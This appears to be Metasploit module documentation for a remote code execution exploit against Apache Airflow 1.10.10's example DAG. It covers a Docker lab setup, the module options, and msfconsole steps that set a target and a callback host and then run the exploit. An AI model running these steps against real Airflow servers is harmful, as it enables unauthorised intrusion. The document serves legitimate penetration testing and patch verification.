 Run:

```sh
docker-compose up
```

and wait for the health check logs to indicate a 200 status message, e.g.:

```log
airflow-webserver_1  | 127.0.0.1 - - [11/Aug/2023:11:48:00 +0000] "GET /health HTTP/1.1" 200 187 "-" "curl/7.64.0"
```

## Verification Steps

- [x] Install Apache Airflow v1.10.10 as described above.
- [x] Verify that the container is in good health by looking at the logs or navigating to
`http://<TARGET_IP>:8080/admin/airflow/login`.
- [x] Start `msfconsole`.
- [x] Do: `use exploit/multi/http/apache_airflow_dag_rce`.
- [x] Do: `set RHOSTS <TARGET_IP>`.
- [x] Do: `set LHOST eth0`.
- [x] Do: `exploit`.

## Options

### TARGETURI (required)

This is the base path of the Airflow webserver. Defaults to `/`.

### RPORT (required)

This is the port of the Airflow webserver. Defaults to `8080`, although Docker port
mappings or custom installations can change it.

### DAG_PATH (required)

This is the path to the vulnerable example DAG `example_trigger_target_dag`, as accessed
from the Airflow Experimental REST API. Defaults to `/api/experimental/dags/example_trigger_target_dag`.

### TIMEOUT (required)

This is the amount of time (in seconds) that the module will wait for the payload to be
executed. Defaults to 120 seconds.

## Scenarios

### Apache Airflow 1.10.10 Installed with Docker on Debian 10

* Using default TARGET 0 - Unix Command

